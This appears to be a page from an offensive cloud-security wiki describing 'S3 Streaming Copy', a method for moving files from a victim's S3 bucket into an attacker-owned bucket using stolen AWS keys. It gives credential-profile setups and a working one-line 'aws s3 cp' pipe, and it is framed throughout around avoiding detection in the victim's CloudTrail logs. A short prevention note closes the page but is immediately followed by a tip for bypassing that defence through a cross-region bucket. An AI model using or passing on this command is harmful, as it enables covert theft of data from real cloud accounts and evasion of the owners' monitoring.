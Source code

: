 ```yaml
---
author_name: Houston Hopkins
title: S3 Streaming Copy
description: Stream copy standard out to standard in with AWS S3 Cli utilizing multiple profile to avoid detection/logging in the victim environment
hide:
  - toc
---
```


# S3 Streaming Copy

Shout Out to Janardhan Prabhakara for showing me this all those years ago!
Note: This technique is a Bring Your Own (BYOK) attack. 
Requirements: a shell, terminal session, command prompt, a victim's AWS Access Key or STS token, an attacker AWS key and bucket to land in a separate account.

Why would use this?
In many environments AWS->AWS traffic is largely unfiltered and extremely full of noise. However, you may find a key that can GetObject, but not PutObject. Or perhaphs, more likely, you would like to hide your putObject command. 

If you have found your way to a shell on an EC2 Instance of the victim your commands will be coming from an expected/trusted network which is even less likely to be detected. 
s3 Streaming Copy can also be used from any terminal with CLI access.

When this attack is perfomed the GetObject call is recorded in the victim cloudtrail dataevents (if enabled, aka hardly ever) But the PutObject call is recorded in the attacker's cloudtrail.

Step 1: setup an profile in .aws/credentials for the ATTACKER credentials. These are credentials from your attacker controlled account aka not the victims credentials
```
[attacker]
aws_access_key_id = <attacker_key_id>
aws_secret_access_key = <attacker_secret_key>
```

If you have victim credentials native to EC2, running as an instance profile you can skip this next step if you want.

create a profile for your VICTIM credentials.  These are the keys you attained with access to the victim's aws enviornment. 
```
[victim]
aws_access_key_id = <victim_key_id>
aws_secret_access_key = <victim_secret_key>
```

When using the AWS CLI you can utilize the --profile to specify the specific profile from the credentials file.

And here is the s3 Stream Copy (for a single file)
```
aws s3 cp --profile victim s3://victim_bucket/juicy_data.txt - | (aws s3 cp --profile attacker  - s3://attacker_bucket/juicy_data.txt )
```
note that you breaking the command and switching the profile context mid copy such that standard out writes to standard in. 

Prevention:
A well known, but not very common, way to prevent this is by mandating egress through a VPC Endpoint and applying a VPC Endpoint Policy that denies any request that does not match the principalOrgId.
This is becoming more common with the popularity of [Data Perimeters](https://docs.aws.amazon.com/whitepapers/latest/building-a-data-perimeter-on-aws/appendix-2-vpc-endpoint-policy-examples.html) guardrails
If this doesn't work it possible the VPC Endpoint policy is in place, try making the attacker destination bucket in another AWS Region. Cross-region calls will not typically traverse a VPC Endpoint.
